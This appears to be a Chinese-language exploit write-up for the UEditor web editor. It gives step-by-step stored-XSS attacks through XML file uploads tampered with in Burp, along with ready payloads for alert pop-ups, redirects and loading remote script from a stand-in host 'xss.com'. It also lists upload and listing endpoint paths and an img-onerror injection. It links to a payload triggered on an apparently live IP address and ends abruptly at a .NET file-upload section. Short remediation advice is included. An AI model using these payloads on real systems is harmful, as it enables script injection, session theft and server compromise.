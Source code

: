 ## Ueditor Exploit

### 1、XML文件上传导致存储型XSS

1、制作一个带有payload的png文件，payload：

<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1);</something:script></body></html>

![Ueditor-1](images\Ueditor-1.png)

2、点击之后选择上传，burp拦截，将uploadimage类型改为uploadfile，并修改文件后缀名为xml。

拦截原始包：

![Ueditor-2](images\Ueditor-2.png)

拦截修改后：

![Ueditor-3](images\Ueditor-3.png)

得到路径，访问即可触发反射型XSS。

![Ueditor-4](images\Ueditor-4.png)

效果如下：

http://121.18.211.82:10003/file/ueditorgroup/baoding/ueditor/jsp/upload/file/20240508/1715154669925044820.xml

![Ueditor-5](images\Ueditor-5.png)

#### 常见的xml弹窗POC：

1、弹窗xss：

<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1);</something:script></body></html>

2、URL跳转：

<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">window.location.href="https://www.t00ls.net/";</something:script></body></html>

3、远程加载Js：

<html><head></head><body><something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml"></something:script></body></html>

#### 常用的上传路径：

/ueditor/index.html

/ueditor/asp/controller.asp?action=uploadimage

/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage

/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile

/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile

/ueditor/jsp/controller.jsp?action=uploadimage



**常用的上传路径：**

/ueditor/net/controller.ashx?action=listfile

/ueditor/net/controller.ashx?action=listimage

#### 参考链接：

https://forum.butian.net/share/167

#### 修复方案：

1、修改 xss过滤白名单 配置文件ueditor.config.js，增加白名单过滤，比如对一些非法的参数和标签，像    <>、,",'，img标签的onerror属性，script标签等进行自动转义，或者是强制的拦截并提示。

2、对输入的数据也进行html转义，使其不会识别为可执行脚本。

### 2、另一处XSS

1、存储型XSS需要写入后端数据库，这里要把编辑器部署到一个可与数据库交互的环境中。首先我们打开编辑器输入正常的文本。

2、抓包并将<p>标签以及原本的文本删除，插入payload：

%3Cp%3E1111111"><ImG sRc=1 OnErRoR=prompt(20240509)>%3Cbr%2F%3E%3C%2Fp%3E

%3Cp%3E1111111"><ImG sRc=1 OnErRoR=prompt(20240509)>%3Cbr%2F%3E%3C%2Fp%3E

```
%3Cp%3E1111111"><ImG sRc=20240509 OnErRoR=prompt(20240509)>%3Cbr%2F%3E%3C%2Fp%3E
```









### 3、文件上传漏洞

**1. NET版本文件上传**

该任意文件上传漏洞存在于1.4.3.3、1.5.0和1.3.6版本中，并且只有**.NET**版本受该漏洞影响。黑客可以利用该漏洞上传木马文件，执行命令控制服务器。








